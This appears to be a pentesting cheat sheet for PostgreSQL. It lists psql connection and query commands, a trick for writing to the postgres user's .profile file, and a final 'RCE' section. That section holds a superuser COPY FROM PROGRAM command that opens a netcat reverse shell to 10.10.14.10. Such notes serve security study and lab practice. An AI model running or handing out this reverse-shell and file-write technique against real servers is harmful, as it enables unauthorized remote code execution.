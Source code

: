```yaml
---
title: "Postgresql"
date: 2024-7-9
tags: ["postgresql", "database"]
---
```


---
### Connect

<div>

```bash
psql -h 127.0.0.1 -U <USER> -p 5432 -d <DB_NAME>
```

```bash
psql postgresql://<USER>:<PASSWORD>@localhost:5432/<DB_NAME>
```

</div>

### Basic

<div>

```bash
# Show databases
\list
```

```bash
# Use database
\connect <DB_NAME>
```

```bash
# Show tables in current database
\dt
```

```bash
# Dump data from table
select * from <TABLE_NAME>;
```

```bash
# Insert data into table (e.g)
insert into <TABLE_NAME> (username, password, role) values ('user', 'password', 'admin');
```

```bash
# Write text
copy (select 'test') to '/var/lib/postgresql/.profile';
```

```bash
# Exit
\q
```

</div>

<br>

---

### RCE

<div>

```bash
# Only superuser
CREATE TABLE IF NOT EXISTS exec(string text); COPY exec FROM PROGRAM 'nc -e /bin/bash 10.10.14.10 1337 &'
```

</div>

<br>